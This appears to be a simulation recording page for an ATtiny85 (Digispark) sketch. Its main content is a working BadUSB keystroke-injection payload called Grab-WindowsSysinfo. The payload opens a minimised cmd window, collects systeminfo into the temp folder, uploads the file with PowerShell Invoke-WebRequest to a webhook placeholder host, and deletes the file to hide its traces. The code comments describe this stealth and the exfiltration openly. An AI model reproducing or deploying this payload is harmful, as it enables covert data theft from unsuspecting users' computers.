
Recording of a sketch running on a simulated ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH).

Above: at 0.1 s.
At 118.9 s:

Timing chart, 0 to 120.4 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_on_Model_A): LOW → HIGH at 11.9 s, → LOW 90.0 s later, → HIGH 16.9 s later

The sketch:

Grab-WindowsSysinfo.ino
```cpp
/*
  Following payload will grab systeminfo and will send them to your hosted webhook.
*/

#include "DigiKeyboard.h"

void setup() {
  pinMode(1, OUTPUT); //LED on Model A
}

void loop() {

  DigiKeyboard.update();
  DigiKeyboard.sendKeyStroke(0);
  DigiKeyboard.delay(3000);
  DigiKeyboard.sendKeyStroke(KEY_R, MOD_GUI_LEFT); //start run
  DigiKeyboard.delay(100);
  DigiKeyboard.println("cmd /k mode con: cols=15 lines=1"); //smallest cmd window possible for trying to making it as less noticeable as possible
  DigiKeyboard.delay(500);
  DigiKeyboard.println("cd %temp%"); //Jumping to temporary dir
  DigiKeyboard.delay(300);
  DigiKeyboard.println("systeminfo > sysinfo.txt"); //grabbing the system info and saving them in temporary dir
  DigiKeyboard.delay(6000);
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/YOURLINK -Method POST -InFile sysinfo.txt"); //Submitting system info on hook
  DigiKeyboard.delay(1000);
  DigiKeyboard.println("del sysinfo.txt /s /f /q"); //cleaning up all the mess
  DigiKeyboard.delay(500);
  DigiKeyboard.println("exit");
  DigiKeyboard.delay(100);
  digitalWrite(1, HIGH); //turn on led when program finishes
  DigiKeyboard.delay(90000);
  digitalWrite(1, LOW);
  DigiKeyboard.delay(5000);

}
```
